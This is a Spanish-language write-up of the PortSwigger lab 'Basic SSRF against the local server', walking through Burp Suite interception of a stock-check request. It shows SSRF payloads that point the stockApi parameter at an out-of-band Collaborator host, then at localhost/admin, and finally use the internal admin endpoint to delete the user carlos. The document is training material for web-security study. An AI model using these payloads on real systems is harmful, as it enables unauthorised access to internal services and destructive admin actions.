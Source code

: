 ```yaml
---
title: Basic SSRF against the local server
description: Laboratorio de Portswigger sobre SSRF
date: 2024-11-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - SSRF
tags:
  - Portswigger Labs
  - SSRF
  - Basic SSRF against the local server
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` de `verificación` de `inventario` que `obtiene datos` de un `sistema interno`. Para `resolver` el `laboratorio`, hay que `cambiar` la `URL` de `verificación` del inventario para acceder a la `interfaz` de `administración` en `http://localhost/admin` y `eliminar` al usuario `carlos`

---

## Guía de SSRF

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SSRF` [https://justice-reaper.github.io/posts/SSRF-Guide/](https://justice-reaper.github.io/posts/SSRF-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SSRF-Lab-1/image_1.png)

Pulsamos en `View details` y vemos la `descripción` de `producto`

![](/assets/img/SSRF-Lab-1/image_2.png)

Pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/SSRF-Lab-1/image_3.png)

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard` y vemos que se está haciendo una `petición` a una `url` vamos a ver si nos llega a nosotros esa `petición`

```
stockApi=http://vut162sctta3s7iwbq796g3xkoqfe62v.oastify.com&storeId=1
```

Efectivamente nos llega una `petición`

![](/assets/img/SSRF-Lab-1/image_4.png)

Si nos ha `llegado` la `petición` a nosotros podríamos ver si también podemos `acceder` a `recursos internos` que tenga la `máquina víctima `

```
stockApi=http://localhost/admin&Id=1
```

Hacemos `click derecho` y `seleccionamos` cualquiera de estas opciones

![](/assets/img/SSRF-Lab-1/image_5.png)

Hemos `accedido` a un `panel administrativo`

![](/assets/img/SSRF-Lab-1/image_6.png)

`Pinchamos` en `Delete` para `eliminar` al usuario `carlos`, pero al hacerlo nos muestra este `mensaje`

![](/assets/img/SSRF-Lab-1/image_7.png)

Esto se debe a que estamos intentando hacerlo sin estar `logueados` como `administrador` en `https://0aec006504834756ea7f73f5009700d5.web-security-academy.net/admin/delete?username=carlos`. Como no tenemos el `usuario` y `contraseña` debemos hacerlo desde la `máquina víctima` y para ello `enviamos` esta `petición`

```
stockApi=http://localhost/admin/delete?username=carlos&Id=1
```

